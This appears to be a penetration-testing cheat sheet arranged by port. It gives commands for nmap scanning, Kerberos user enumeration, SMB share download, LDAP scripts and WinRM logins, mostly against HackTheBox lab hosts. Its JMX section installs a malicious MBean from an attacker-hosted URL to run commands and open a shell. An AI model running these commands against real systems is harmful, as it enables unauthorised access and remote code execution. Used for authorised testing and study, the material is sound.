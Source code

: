 ## Initial scan  
Discover the hosts on the network : `nmap -Pn -p- -v 192.168.110.1-255`  
Scan all ports on a host and execute nmap scripts : `nmap -A -p- -v 192.168.110.55`  
  
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
  
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     

## Port 135 - MSRPC  
TODO  
  

## Port 445 - SMB
**List SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152"`  
    
**Browse SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`    
    
**Download SMB files:**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`   
    
  
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM:    
`gem install evil-winrm`  
`evil-winrm -u Administrator -p 's3cure_PaSsw0rd'  -i <IP>/<Domain>`  
  
Using Powershell:  
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`  
  
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`

## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
